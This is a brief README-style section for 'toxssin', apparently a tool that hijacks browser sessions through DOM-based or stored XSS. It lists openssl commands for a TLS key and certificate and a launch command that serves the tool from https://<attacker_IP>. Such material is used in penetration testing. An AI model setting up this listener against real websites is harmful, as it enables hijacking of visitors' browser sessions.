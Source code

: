 # 02 - Interact Session

Note: you have to run this as root. Currently I tested two vulnerable XSS types and they are **DOM-Based XSS** and **Stored XSS**. **Reflective XSS** doesn't work. 

Encrypted TLS key and certification.

```
# openssl req -x509 -newkey rsa:2048 -subj "/C=<country_code>/ST=<state>/L=<locality>/O=<organization_name>/OU=<organization_unit>/CN=<domain.com>/emailAddress=<email>" -keyout private.key -out certificate.crt -days 365
```

Non-encrypted TLS key and certification

```
$ openssl req -new -x509 -subj "/C=<country_code>/ST=<state>/L=<locality>/O=<organization_name>/OU=<organization_unit>/CN=<domain.com>/emailAddress=<email>" -keyout private.key -out certificate.crt -days 365 -nodes
```

Pass the parameters of key and certificate.

```
# toxssin -u https://<attacker_IP> -k /absolute/path/to/private.key -c /absolute/path/to/certificate.crt
```